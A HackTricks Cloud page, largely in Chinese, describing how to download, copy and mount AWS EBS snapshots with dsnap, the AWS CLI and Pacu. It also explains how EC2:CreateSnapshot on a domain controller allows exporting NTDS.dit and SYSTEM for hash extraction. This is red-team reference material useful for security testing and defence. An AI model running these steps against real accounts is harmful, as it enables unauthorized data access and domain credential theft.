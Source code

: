 # AWS - EBS Snapshot Dump

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 本地检查快照
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**注意** `dsnap` 不允许您下载公共快照。要绕过此限制，您可以在您的个人账户中复制快照，然后下载该快照：
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

有关此技术的更多信息，请查看原始研究 [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

您可以使用 Pacu 的模块 [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) 来执行此操作

## 在 AWS 中检查快照

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**在您控制的 EC2 虚拟机中挂载它**（它必须与备份的副本位于同一区域）：

步骤 1：通过前往 EC2 –> 卷，创建一个您所需大小和类型的新卷。

要执行此操作，请遵循以下命令：

* 创建一个 EBS 卷以附加到 EC2 实例。
* 确保 EBS 卷和实例位于同一区域。

步骤 2：通过右键单击创建的卷，选择“附加卷”选项。

步骤 3：从实例文本框中选择实例。

要执行此操作，请使用以下命令：

* 附加 EBS 卷。

步骤 4：登录到 EC2 实例，并使用命令 `lsblk` 列出可用磁盘。

步骤 5：使用命令 `sudo file -s /dev/xvdf` 检查卷是否有任何数据。

如果上述命令的输出显示 "/dev/xvdf: data"，则表示卷是空的。

步骤 6：使用命令 `sudo mkfs -t ext4 /dev/xvdf` 将卷格式化为 ext4 文件系统。或者，您也可以使用命令 `sudo mkfs -t xfs /dev/xvdf` 使用 xfs 格式。请注意，您应该使用 ext4 或 xfs 中的任意一种。

步骤 7：创建一个您选择的目录以挂载新的 ext4 卷。例如，您可以使用名称 "newvolume"。

要执行此操作，请使用命令 `sudo mkdir /newvolume`。

步骤 8：使用命令 `sudo mount /dev/xvdf /newvolume/` 将卷挂载到 "newvolume" 目录。

步骤 9：切换到 "newvolume" 目录并检查磁盘空间以验证卷挂载。

要执行此操作，请使用以下命令：

* 切换到 `/newvolume`。
* 使用命令 `df -h .` 检查磁盘空间。此命令的输出应显示 "newvolume" 目录中的可用空间。

您可以使用 Pacu 通过模块 `ebs__explore_snapshots` 来完成此操作。

## 在 AWS 中检查快照（使用 cli）

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

任何拥有 **`EC2:CreateSnapshot`** 权限的 AWS 用户都可以通过创建 **域控制器的快照** 来窃取所有域用户的哈希值，将其挂载到他们控制的实例上，并 **导出 NTDS.dit 和 SYSTEM** 注册表蜂巢文件，以便与 Impacket 的 secretsdump 项目一起使用。

您可以使用此工具来自动化攻击：[https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy)，或者在创建快照后使用之前的技术之一。

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
